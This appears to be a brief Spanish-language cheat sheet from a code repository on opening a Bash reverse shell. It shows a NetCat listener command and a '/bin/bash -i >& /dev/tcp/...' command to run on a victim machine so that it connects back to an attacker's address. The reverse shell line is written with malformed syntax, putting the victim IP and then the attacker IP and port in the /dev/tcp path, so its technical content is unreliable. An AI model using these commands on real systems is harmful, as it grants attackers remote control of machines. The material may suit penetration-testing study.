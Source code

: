 # Bash Reverse Shell

Mediante Bash podemos establecer una shell inversa en la que poder utilizar una gran variedad de herramientas.
En primer lugar, antes debemos tener en cuenta que ciertos detalles sobre la Bash Reverse Shell:
* No funcionará en equipos Windows, ya que estos no tienen instalado Bash.
* Tampoco funcinará en sistemas Unix que no tengan Bash instalado, en tal caso, podemos usar `sh`.

Para establecer una reverse shell en bash simplemente nos ponemos en escucha con `NetCat` por el puerto deseado:

    nc -lvnp PUERTO

`Ejemplo:`

    nc -lvnp 443
    
Luego desde el esquipo objetivo ejecutamos el siguiente comando para establecer la reverse shell:

    /bin/bash -i >& /dev/tcp/[Ip Víctima]/[Ip Atacante]-Puerto 0>&1
    
`Ejemplo:`

    /bin/bash -i >& /dev/tcp/10.10.10.10/10.10.14.14-443 0>&1
    
Mediante este comando estamos estableciendo una reverse shell desde el equipo víctima (10.10.10.10) a nuestro equipo (10.10.14.14) por nuestro
puerto 443.

Si todo ha funcionado correctamente veremos como en la terminal donde estábamos en escucha con NetCat se nos abre la reverse shell.
  
